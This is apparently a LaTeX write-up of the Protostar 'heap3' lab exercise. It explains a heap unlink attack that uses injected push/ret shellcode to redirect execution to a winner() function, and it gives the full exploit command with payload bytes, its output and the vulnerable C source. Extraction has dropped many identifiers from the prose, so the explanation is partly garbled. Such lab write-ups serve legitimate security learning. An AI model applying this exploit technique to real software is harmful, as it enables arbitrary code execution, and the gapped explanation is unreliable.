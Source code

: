 We realize that the  function tries to write to  which
is a text segment of the code. On searching, we find out that this segment is a
read only segment and thus, when  tries to write to the address that
we injected, it runs into an error. We try instead to inject an address that we
know we can write to, such as an address that resides in our heap.

Now, if we were to point to an address within our heap, then we need a mechanism
to run . We search online and we find that we are able to use a shellcode
to jump to . Through searching online, I found that we can call a push
of the address and ret to get the function running.

We can place this string in our first variable  and set the previously
unwrittable address location to point to our shell code. Since free will modify
the first chunk (4bytes) of the allocated memory, we will structure the first
injected parameter to be . We know that 
starts at  and thus we will point to  a +4 offset
because of the filler that we are adding.

\begin{lstlisting}[language=bash]
\end{lstlisting}

\begin{lstlisting}[language=bash]
./heap3 `python -c "print 'AAAA\x68\x64\x88\x04\x08\xc3'"`
  `python -c "print 'A' * 32 + '\xfc\xff\xff\xff'*2 + 'A' * 4 + '\x1c\xb1\x04\x08\x0c\xc0\x04\x08'"` C
>>>that wasn't too bad now, was it? @ 1713054815
\end{lstlisting}

\subsection*{Source code}

\begin{lstlisting}[language=c]
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  char *a, *b, *c;

  a = malloc(32);
  b = malloc(32);
  c = malloc(32);

  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);

  free(c);
  free(b);
  free(a);

  printf("dynamite failed?\n");
}
\end{lstlisting}
